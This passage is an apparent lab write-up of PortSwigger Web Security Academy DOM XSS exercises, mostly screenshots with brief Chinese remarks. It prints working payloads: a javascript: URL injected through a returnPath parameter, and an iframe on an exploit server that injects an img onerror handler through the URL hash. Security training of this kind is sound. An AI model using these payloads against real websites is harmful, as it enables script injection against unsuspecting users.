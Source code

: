 ### Solution
#### /feedback?returnPath=/
![image](https://hackmd.io/_uploads/ryvnkCmKp.png)

#### /feedback?returnPath=chw
![image](https://hackmd.io/_uploads/Hkq1gAXFT.png)
> payload被存在href中

### Solved
#### /feedback?returnPath=javascript:<script>alert(1)</script>
![image](https://hackmd.io/_uploads/rJW_gCmKp.png)

![image](https://hackmd.io/_uploads/HJG5lCmY6.png)

## Lab: DOM XSS in jQuery selector sink using a hashchange event
![image](https://hackmd.io/_uploads/rkN3x0XYT.png)
https://0a9f00a804db45d786102d66004c0035.web-security-academy.net/
![image](https://hackmd.io/_uploads/HyXTg0mtT.png)

### Solution
#### Go to exploit server
![image](https://hackmd.io/_uploads/HyLB-0XtT.png)
https://exploit-0a4100ea04b54542868a2cff014700f2.exploit-server.net/
![image](https://hackmd.io/_uploads/SkFIZRXY6.png)

#### Insert iframe in Body
```html=
Hello, world!
<iframe src="https://0a9f00a804db45d786102d66004c0035.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
![image](https://hackmd.io/_uploads/SyvbmAmKa.png)

![image](https://hackmd.io/_uploads/HJReGR7Fp.png)
(View exploit)
![image](https://hackmd.io/_uploads/HJUrz0mYp.png)
> 成功呼叫print()

### Solved
#### Click Deliver exploit yo victim
![image](https://hackmd.io/_uploads/BJl5NXRXK6.png)
